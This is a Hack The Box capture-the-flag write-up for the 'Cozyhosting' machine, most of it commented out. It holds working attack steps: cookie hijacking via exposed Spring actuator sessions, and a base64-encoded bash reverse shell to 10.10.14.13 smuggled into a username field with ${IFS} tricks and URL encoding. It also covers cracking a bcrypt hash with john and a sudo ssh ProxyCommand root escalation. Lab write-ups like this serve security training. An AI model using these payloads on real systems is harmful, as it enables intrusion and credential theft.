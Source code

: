 ```yaml
---
title: HTB - Cozyhosting
date: 2023-11-25
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, http, webserver, nginx, whatweb, wappalyzer, gobuster, dirsearch, cookies, burp-suite, jar, psql, postgres, hash, john, gtfobins]
img_path: /assets/htb/fullpwn/cozyhosting/
published: true
image:
    path: cozy_banner.png
---
```


## Overview

|:-:|:-:|
|Machine|[Cozyhosting](https://app.hackthebox.com/machines/559)|
|Rank|Easy|
|Time|3h14m|
|Focus|Dir-busting, cookies|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- ## 1. Enumeration

```shell
# port scanning
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 cozy

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Web Server Enum

```shell
# tech used
whatweb http://cozyhosting.htb

http://cozyhosting.htb [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ], Email[info@cozyhosting.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.230], Lightbox, Script, Title[Cozy Hosting - Home], UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-XSS-Protection[0], nginx[1.18.0]
```

```page-source
    <!-- =======================================================
    * Template Name: FlexStart
    * Updated: Mar 10 2023 with Bootstrap v5.2.3
    * Template URL: https://bootstrapmade.com/flexstart-bootstrap-startup-template/
    * Author: BootstrapMade.com
    * License: https://bootstrapmade.com/license/
    ======================================================== --
```

```page-source-login
   <!-- =======================================================
    * Template Name: NiceAdmin
    * Updated: Mar 09 2023 with Bootstrap v5.2.3
    * Template URL: https://bootstrapmade.com/nice-admin-bootstrap-admin-html-template/
    * Author: BootstrapMade.com
    * License: https://bootstrapmade.com/license/
    ======================================================== --
```

<figure>
    <img src="wappalyzer.png"
    alt="Wappalyzer report" >
</figure>

```shell
gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
```

```shell
dirsearch -u http://cozyhosting.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_cozyhosting.htb/__23-11-22_21-03-43.txt

Target: http://cozyhosting.htb/

[21:03:43] Starting:
[21:03:48] 200 -    0B  - /;/json
[21:03:48] 200 -    0B  - /;/login
[21:03:48] 200 -    0B  - /;json/
[21:03:48] 200 -    0B  - /;/admin
[21:03:48] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:03:48] 200 -    0B  - /;login/
[21:03:48] 200 -    0B  - /;admin/
[21:03:48] 400 -  435B  - /a%5c.aspx
[21:03:49] 200 -    0B  - /actuator/;/auditevents
[21:03:49] 200 -    0B  - /actuator/;/auditLog
[21:03:49] 200 -    0B  - /actuator/;/caches
[21:03:49] 200 -    0B  - /actuator/;/configurationMetadata
[21:03:49] 200 -    0B  - /actuator/;/env
[21:03:49] 200 -    0B  - /actuator/;/configprops
[21:03:49] 200 -    0B  - /actuator/;/events
[21:03:49] 200 -    0B  - /actuator/;/exportRegisteredServices
[21:03:49] 200 -    0B  - /actuator/;/healthcheck
[21:03:49] 200 -    0B  - /actuator/;/dump
[21:03:49] 200 -    0B  - /actuator/;/heapdump
[21:03:49] 200 -    0B  - /actuator/;/conditions
[21:03:49] 200 -    0B  - /actuator/;/beans
[21:03:49] 200 -    0B  - /actuator/;/health
[21:03:49] 200 -    0B  - /actuator/;/features
[21:03:49] 200 -    0B  - /actuator/;/httptrace
[21:03:49] 200 -    0B  - /actuator/;/info
[21:03:49] 200 -    0B  - /actuator/;/integrationgraph
[21:03:49] 200 -    0B  - /actuator/;/flyway
[21:03:49] 200 -    0B  - /actuator/;/jolokia
[21:03:49] 200 -    0B  - /actuator/;/liquibase
[21:03:49] 200 -    0B  - /actuator/;/logfile
[21:03:49] 200 -    0B  - /actuator/;/loggers
[21:03:49] 200 -    0B  - /actuator/;/loggingConfig
[21:03:49] 200 -    0B  - /actuator/;/metrics
[21:03:49] 200 -    0B  - /actuator/;/mappings
[21:03:49] 200 -    0B  - /actuator/;/prometheus
[21:03:49] 200 -    0B  - /actuator/;/scheduledtasks
[21:03:49] 200 -    0B  - /actuator/;/refresh
[21:03:49] 200 -    0B  - /actuator/;/registeredServices
[21:03:49] 200 -    0B  - /actuator/;/resolveAttributes
[21:03:49] 200 -    0B  - /actuator/;/releaseAttributes
[21:03:49] 200 -    0B  - /actuator/;/sessions
[21:03:49] 200 -    0B  - /actuator/;/ssoSessions
[21:03:49] 200 -    0B  - /actuator/;/shutdown
[21:03:49] 200 -    0B  - /actuator/;/sso
[21:03:49] 200 -    0B  - /actuator/;/springWebflow
[21:03:49] 200 -    0B  - /actuator/;/statistics
[21:03:49] 200 -    0B  - /actuator/;/threaddump
[21:03:49] 200 -    0B  - /actuator/;/trace
[21:03:49] 200 -    0B  - /actuator/;/status
[21:03:49] 200 -  245B  - /actuator/sessions
[21:03:49] 200 -  634B  - /actuator
[21:03:49] 200 -    5KB - /actuator/env
[21:03:49] 200 -  124KB - /actuator/beans
[21:03:49] 200 -   15B  - /actuator/health
[21:03:49] 200 -   10KB - /actuator/mappings
[21:03:49] 401 -   97B  - /admin
[21:03:49] 200 -    0B  - /admin/%3bindex/
[21:03:50] 200 -    0B  - /admin;/
[21:03:50] 200 -    0B  - /Admin;/
[21:03:56] 200 -    0B  - /axis//happyaxis.jsp
[21:03:56] 200 -    0B  - /axis2-web//HappyAxis.jsp
[21:03:56] 200 -    0B  - /axis2//axis2-web/HappyAxis.jsp
[21:04:00] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[21:04:04] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[21:04:04] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[21:04:04] 500 -   73B  - /error
[21:04:04] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[21:04:04] 200 -    0B  - /extjs/resources//charts.swf
[21:04:07] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[21:04:08] 200 -    0B  - /jkstatus;
[21:04:10] 200 -    4KB - /login
[21:04:10] 200 -    0B  - /login.wdm%2e
[21:04:11] 204 -    0B  - /logout

Task Completed
```

<figure>
    <img src="actuator_sessions.png"
    alt="actuator-sessions subdirectory" >
</figure>

> Change cookie value with Burp Suite.

<figure>
    <img src="logged_in.png"
    alt="Logging into the website" >
</figure>

# 3. Initial Foothold

<figure>
    <img src="burp_admin_execute-ssh.png"
    alt="Execute ssh function" >
</figure>

<figure>
    <img src="bash_error.png"
    alt="Bash response error" >
</figure>

<figure>
    <img src="execute_ssh_without_user.png"
    alt="SSH response info" >
</figure>

```shell
echo "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK
```

```shell
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

> URL encode key chars (`CTRL+U`) and send the above payload as the `username` param. 

```shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.230] 40406
bash: cannot set terminal process group (1064): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$
```

## 4. Lateral movement

> Stabilize shell.

```shell
app@cozyhosting:/app$ netstat -ltn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN

app@cozyhosting:/app$ netstat -lt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:postgresql    0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN
tcp6       0      0 localhost:http-alt      [::]:*                  LISTEN
```

```shell
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar

# transfer file
app@cozyhosting:/app$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

```shell
wget http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar
--2023-11-25 17:21:06--  http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar
Resolving cozyhosting.htb (cozyhosting.htb)... 10.10.11.230
Connecting to cozyhosting.htb (cozyhosting.htb)|10.10.11.230|:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.ja 100%[========================>]  57.47M  11.5MB/s    in 5.5s

2023-11-25 17:21:12 (10.5 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```

```shell
ls
cloudhosting-0.0.1.jar

file cloudhosting-0.0.1.jar
cloudhosting-0.0.1.jar: Java archive data (JAR)

apropos cloudhosting-0.0.1.jar
cloudhosting-0.0.1.jar: nothing appropriate.
```

> [How to open JARs](https://www.makeuseof.com/jar-file-open-using-command-line/).

```shell
# check content
jar tf cloudhosting-0.0.1.jar
META-INF/
META-INF/MANIFEST.MF
org/
org/springframework/
org/springframework/boot/
org/springframework/boot/loader/
org/springframework/boot/loader/ClassPathIndexFile.class
org/springframework/boot/loader/ExecutableArchiveLauncher.class
org/springframework/boot/loader/JarLauncher.class
org/springframework/boot/loader/LaunchedURLClassLoader$DefinePackageCallType.class
org/springframework/boot/loader/LaunchedURLClassLoader$UseFastConnectionExceptionsEnumeration.class
org/springframework/boot/loader/LaunchedURLClassLoader.class
org/springframework/boot/loader/Launcher.class
org/springframework/boot/loader/MainMethodRunner.class
...
```

```shell
# extract file
jar xf cloudhosting-0.0.1.jar
ls
BOOT-INF  cloudhosting-0.0.1.jar  META-INF  org

┌──(kali㉿CSpanias)-[~/htb/cozyhosting/BOOT-INF/classes]
└─$ cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

```shell
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
Password for user postgres:
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

> Postgres [cheatsheet](https://postgrescheatsheet.com/#/databases).

```shell
# list databases
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

# connect to cozyhosting database
postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

# list tables
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# select * from users;
 name | password | role
------+----------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin

cozyhosting-# select * from hosts;
 id | username  |      hostname
----+-----------+--------------------
  1 | kanderson | suspicious mcnulty
  5 | kanderson | boring mahavira
  6 | kanderson | stoic varahamihira
  7 | kanderson | awesome lalande
(4 rows)
```

```shell
┌──(kali㉿CSpanias)-[~/htb/cozyhosting]
└─$ echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash

┌──(kali㉿CSpanias)-[~/htb/cozyhosting]
└─$ cat hash
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

> `$2a$` is [_blowfish_](https://www.baeldung.com/cs/des-vs-3des-vs-blowfish-vs-aes#3-blowfish).

```shell
┌──(kali㉿CSpanias)-[~/htb/cozyhosting]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:05 DONE (2023-11-25 18:00) 0.1814g/s 522.6p/s 522.6c/s 522.6C/s onlyme..soccer9
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```shell
app@cozyhosting:/app$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/fals
```

```shell
app@cozyhosting:/app$ su josh
Password:
# manchesterunited
josh@cozyhosting:/app$
josh@cozyhosting:/app$ cat ~/user.txt
1ce25812e75a54178b64f6258b0d83c6
```

## 5. Privilege escalation

```shell
josh@cozyhosting:/app$ sudo -l
[sudo] password for josh:
# manchesterunited
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

<figure>
    <img src="gtfobins_sudo_ssh.png"
    alt="GTFO Sudo ssh" >
</figure>

```shell
josh@cozyhosting:/app$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat ~/root.txt
07964e5398eaa692f7994088783567f3
```

## New things

1. [`dirsearch`](https://github.com/maurosoria/dirsearch)

2. White Label Error Page

    > _WhiteLabel Error Handling is a simple way to handle errors that is easy to customize. You can change the error pages that are displayed to users, and you can also configure the error code that is displayed and whether or not the stack trace is included._

    <figure>
        <img src="whitelabel_error_page.jpg"
        alt="White label error page" >
    </figure>

    <figure>
        <img src="spring_actuators_hacktricks.png"
        alt="White label error page" >
    </figure>

    > [Spring Actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)

    The Spring Boot Framework includes a number of features called actuators to help you monitor and manage your web application when you push it to production. Intended to be used for auditing, health, and metrics gathering, they can also open a hidden door to your server when misconfigured.
    
    When a Spring Boot application is running, it automatically registers several endpoints (such as '/health', '/trace', '/beans', '/env' etc) into the routing process. For Spring Boot 1 - 1.4, they are accessible without authentication, causing significant problems with security. Starting with Spring version 1.5, all endpoints apart from '/health' and '/info' are considered sensitive and secured by default, but this security is often disabled by the application developers.
    
    The following Actuator endpoints could potentially have security implications leading to possible vulnerabilities:

    /dump - displays a dump of threads (including a stack trace)
    /trace - displays the last several HTTP messages (which could include session identifiers)
    /logfile - outputs the contents of the log file
    /shutdown - shuts the application down
    /mappings - shows all of the MVC controller mappings
    /env - provides access to the configuration environment
    /restart - restarts the application
    
    **For Spring 1x, they are registered under the root URL, and in 2x they moved to the "/actuator/" base path.**


3. URL key chars encoding:

    ```shell
    # 
    ;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

    # URL encoded
    %3b%65%63%68%6f%24%7b%49%46%53%25%3f%3f%7d%22%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%78%4d%79%38%30%4e%44%51%30%49%44%41%2b%4a%6a%45%4b%22%24%7b%49%46%53%25%3f%3f%7d%7c%24%7b%49%46%53%25%3f%3f%7d%62%61%73%65%36%34%24%7b%49%46%53%25%3f%3f%7d%2d%64%24%7b%49%46%53%25%3f%3f%7d%7c%24%7b%49%46%53%25%3f%3f%7d%62%61%73%68%3b%0a

    # URL key chars encoded
    %3becho${IFS%25%3f%3f}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA%2bJjEK"${IFS%25%3f%3f}|${IFS%25%3f%3f}base64${IFS%25%3f%3f}-d${IFS%25%3f%3f}|${IFS%25%3f%3f}bash%3b
    ```

4. Internal Field Separator (IFS) variable

    - [Bash IFS - What is the Internal Field Separator?](https://delightlylinux.wordpress.com/2020/02/16/bash-ifs-what-is-the-internal-field-separator/)
    - [Linux Shell - What is IFS?](https://www.theunixschool.com/2020/05/linux-shell-what-is-ifs.html)

5. JAR file manipulation

    - [How to Open a JAR File Using the Command Line](https://www.makeuseof.com/jar-file-open-using-command-line/) -->

<figure>
    <img src="cozy_pwned.png"
    alt="Cozy machine pwned" >
</figure>